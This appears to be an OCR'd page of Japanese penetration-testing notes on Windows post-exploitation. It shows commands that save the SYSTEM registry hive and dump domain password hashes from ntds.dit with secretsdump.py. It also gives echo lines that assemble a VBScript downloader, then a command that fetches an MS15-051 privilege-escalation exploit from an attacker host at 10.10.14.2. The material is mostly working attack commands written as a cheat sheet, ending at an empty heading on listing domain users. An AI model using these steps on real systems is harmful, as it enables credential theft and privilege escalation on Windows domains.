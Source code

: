 ntds.dit ファイルを取得した後、レジストリから SYSTEM ファイルも取得し、これらの両方を攻撃者のマシンに送信してローカルにダンプする必要がある  

```
cd C:\temp
reg.exe save hklm\system C:\temp\system.bak
```

あとは、ローカル上でsecretdump.pyを使用してハッシュを取得する  

```
secretsdump.py -ntds ntds.dit -system system.bak LOCAL > hashes.txt
```


# Windows権限昇格手法  

### C:\Windows\Temp上でアップロード前に実行する  
```
# I prefer to do this on C:\Windows\Temp to can write without problems

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
そのあとに以下実行でファイルをダウンロード  
```
cscript wget.vbs http://10.10.14.2:8000/ms15-051x64.exe hello.exe
```

### ドメインユーザーのリストを取得する
